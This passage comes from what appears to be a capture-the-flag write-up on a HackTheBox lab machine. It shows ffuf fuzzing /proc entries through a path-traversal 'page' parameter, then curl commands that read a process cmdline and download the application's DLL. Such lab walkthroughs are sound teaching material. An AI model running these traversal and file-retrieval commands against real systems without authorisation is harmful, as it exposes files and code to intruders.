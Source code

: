             /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://bagel.htb:8000/?page=../../../../proc/FUZZ/cmdline
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Regexp: dotnet
    ________________________________________________
    
    890                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 86ms]
    924                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
    926                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
    925                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 103ms]
    927                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 101ms]
    928                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 99ms]
    929                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 96ms]
    930                     [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 102ms]
    1035                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 92ms]
    1043                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 88ms]
    1045                    [Status: 200, Size: 45, Words: 1, Lines: 1, Duration: 90ms]
    :: Progress: [10000/10000] :: Job [1/1] :: 229 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
    

There’s a bunch of hits, but all the same size (and all the same on some
inspection).

#### Get File

The various `cmdlines` are all the same:

    
    
    oxdf@hacky$ curl -o- http://bagel.htb:8000/?page=../../../../proc/924/cmdline
    dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
    

I’m able to get the DLL file:

    
    
    oxdf@hacky$oxdf@hacky$ curl -o bagel.dll http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 10752  100 10752    0     0  61497      0 --:--:-- --:--:-- --:--:-- 61793
    oxdf@hacky$ file bagel.dll 
    bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
    